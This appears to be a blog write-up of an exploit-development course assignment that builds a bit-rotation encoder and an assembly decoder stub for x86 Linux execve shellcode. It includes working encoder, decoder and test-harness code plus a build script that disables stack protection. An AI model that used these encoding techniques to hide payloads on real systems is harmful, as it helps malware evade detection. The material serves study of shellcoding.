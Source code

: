 ```yaml
---
title: SLAE32 Assignment 4 -- Rotation Encoder
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - rotate
  - Encoder
  - Decoder
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)
## Overview
For my fourth assignment in the SLAE32 course, I created a custom Rotation Encoder.   
How this works is to encode the payload, it rotates every bit to the left by one. If the greatest bit (valued 128) falls off the left, it wraps around to the lowest bit (valued 1). To decode, all the bits are rotated to the right by one. If there is a low bit, it is moved to the highest bit.  
#### Encode 
![](/assets/images/rotateLeft.png)  
#### Decode
![](/assets/images/rotateRight.png)   
## Encrypting the Payload
The payload used for this example is the `execve` shellcode provided in the SLAE course.  

### Grabbing the Payload Shellcode
+ To quickly grab the hex from shellcode, I used the method shown in the SLAE course.   
+ To make it easier, I added it to a shellscript.  
```bash
#!/bin/bash
# Filename: objdump2hex.sh
# Author:   boku
OBJFILE=$1
objdump -d $(pwd)/${1} | grep '[0-9a-f]:' | grep -v 'file'\
| cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' \
| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s \
| sed 's/^/"/' | sed 's/$/"/g'
```

### Using the Bash Script to get the Shellcode
```bash
root@zed# ./objdump2hex.sh execve-stack 
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Perfect. Now we will need to encode this shellcode using our Python Encoder `rotateLeftEncoder.py`.  
+ The new encoded shellcode is output in both the `\x` format and the `0x, ` format.  
+ As you can see in the top section, all that needs to be done to change the shellcode payload is replace the string in the `shellcode` array.  

### Python Encoder

```python
#!/usr/bin/python
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62"
shellcode += "\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1"
shellcode += "\xb0\x0b\xcd\x80"

encoded1 = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
    if x > 127:
        x = x - 128             # Remove the left-most bit
        x = x << 1              # Shift to the left 1
        x += 1                  # Add 1, to complete the rotate
        encoded1 += '\\x'
        encoded1 += '%02x' %x   # Add the rotated left hex to string 
        encoded2 += '0x'
        encoded2 += '%02x,' %x  # Add the rotated left hex to string 
    else:
        encoded1 += '\\x'       # No leftmost bit, just rotate
        encoded1 += '%02x' %(x << 1)
        encoded2 += '0x'        # No leftmost bit, just rotate
        encoded2 += '%02x,' %(x << 1)
    
print encoded1
print encoded2
print 'Len: %d' % len(bytearray(shellcode))
```

Outputting our new, encoded shellcode:

```bash
root# python rotateLeftEncoder.py
Encoded shellcode ...
\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e\xc4\xd2\xdc\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01                   
0x62,0x81,0xa0,0xd0,0x5e,0x5e,0xe6,0xd0,0xd0,0x5e,0xc4,0xd2,0xdc,0x13,0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,0x16,0x9b,0x01,
Len: 25
```

Our encoded shellcode payload is 25 bytes. We will need to add a final byte to the end `\xff`.  
This byte will be used by our decoder to let it know it has reached the end of our payload.  
We will copy the second output with the "0x, " format to our nasm program after appending the byte.  

This assembly program will use the Jump-Call-Pop technique to save the memory location of our string to the stack and then pop that address into the ESI Register.   
Once in the ESI Register, we will decode our encoded shellcode byte by byte using the instructions `ror byte [esi], 1` (rotate to the right one bit, one byte at a time), and `inc esi`. If the decoded byte is `\xff` then we will jump to the shellcode using the instruction `je Shellcode`.   
If the byte is not `\xff` then the zero flag will not be set, and that jump will be ignored.   
The next instruction `jmp short decode` is an unconditional jump. We use this to create the loop to decode our shellcode.  

```nasm
; Filename: rotateRightDecoder.nasm
; Author:   boku

global _start

section .text
_start:
  jmp short call_decoder

decoder:
  pop esi

decode:
  ror byte [esi], 1
  cmp byte [esi], 0xFF
  je Shellcode
  inc esi
  jmp short decode
        
call_decoder:
  call decoder
  Shellcode: db 0x62,0x81,0xa0,0xd0,0x5e,0x5e,\
      0xe6,0xd0,0xd0,0x5e,0xc4,0xd2,0xdc,0x13,\
      0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,\
      0x16,0x9b,0x01,0xff
```

Now that both the decoder and encoder are created, the last thing to do is compile and test.  

To compile my Assembly code I used the NASM Compiler with these commands. After creating the object file with NASM, I linked the object file using `ld`.  

```bash
nasm -f elf32 rotateRightDecoder.nasm -o rotateRightDecoder.o
ld -o rotateRightDecoder rotateRightDecoder.o
```

I tested the shellcode using the C program shown in the SLAE course.   
After extracting the shellcode using the above bash script, I added it to the C program as the `code[]` array.  

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x0b\x5e\xd0\x0e\x80\x3e\xff\x74\x08\x46\xeb\xf6\xe8"
"\xf0\xff\xff\xff\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e"
"\xc4\xd2\xdc\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01\xff";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

To speed up compilation while developing my custom rotation encoder, I created a simple bash script to automate the process.

```bash
#!/bin/bash
SHELLCODE=$1
gcc -fno-stack-protector -z execstack -o shellcode $(pwd)/${SHELLCODE}
```
